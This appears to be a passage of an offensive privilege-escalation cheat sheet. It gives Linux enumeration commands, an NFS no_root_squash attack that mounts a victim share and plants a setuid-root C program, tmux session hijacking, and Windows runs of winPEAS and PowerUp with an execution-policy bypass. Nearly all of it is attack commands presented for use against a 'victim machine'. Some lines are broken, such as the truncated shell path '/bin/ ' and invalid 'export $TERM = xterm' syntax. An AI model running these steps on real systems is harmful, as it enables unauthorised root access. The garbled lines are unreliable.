 - Find capabilities

``` 
getcap -r / 2>/dev/null
```

- Find Crontab

``` 
cat /etc/crontab
```

- Find NFS

``` 
#NFS are stored in here
cat /etc/exports

#enumerating mountable shares of victim
showmount -e <IP>

#mount one of the no_root_squash shares to attacking machine
mkdir /tmp/anynameyouwant
mount -o rw <IP>:/nameofshare /tmp/anynameyouwant

#after that we create nfs.c using nano in attacker machine 
int main(){
setgid(0);
setuid(0);
system("/bin/ ");
return 0;
}
#now we compile the c file 
gcc nfs.c -o nfs -w

#add S=SUID permission
chmod +s nfs 

# GO TO VICTIM MACHINE AND NAVIGATE TO SHARE AND EXECUTE THE PROGRAM 
```

- TMUX 

``` 
ps aux | grep tmux #To find the tmux folder where sessions are stored in
export $TERM = xterm #stabilizing the shell 
tmux -S attach <name_of_session> #Make sure you are in the same directory where the session is stored in
```

### Windows privelege escalation

- automated scripts

``` 
winPEAS.exe
windows-privesc-check2.exe
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"
```
